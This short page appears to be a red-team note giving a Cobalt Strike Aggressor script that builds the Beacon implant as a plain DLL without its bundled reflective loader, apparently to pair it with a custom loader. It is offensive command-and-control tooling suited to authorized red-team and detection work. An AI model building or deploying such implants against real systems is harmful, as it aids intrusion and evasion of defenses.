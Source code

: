 # UDRLess Beacon



## Introduction

Beacon comes precompiled with it's own User Defined Reflective Loader, but we may want to generate a just a standard beacon DLL. Here's a Aggressor script to do so:

```
# ------------------------------------ 
# $1 = DLLfilename 
# $2 = arch 
# ------------------------------------ 
 
set BEACON_RDLL_SIZE { 
    warn("Running 'BEACON_RDLL_SIZE' for DLL " .$1. " with architecture " .$2);    
    return "0"; 
}

set BEACON_RDLL_GENERATE {
    local('$arch $beacon $fileHandle $ldr $path $payload');
    $beacon = $2;
    $arch = $3;

    # Apply the transformations to the beacon payload
    $beacon = setup_transformations($beacon, $arch);
	
    return $beacon;
    }
```
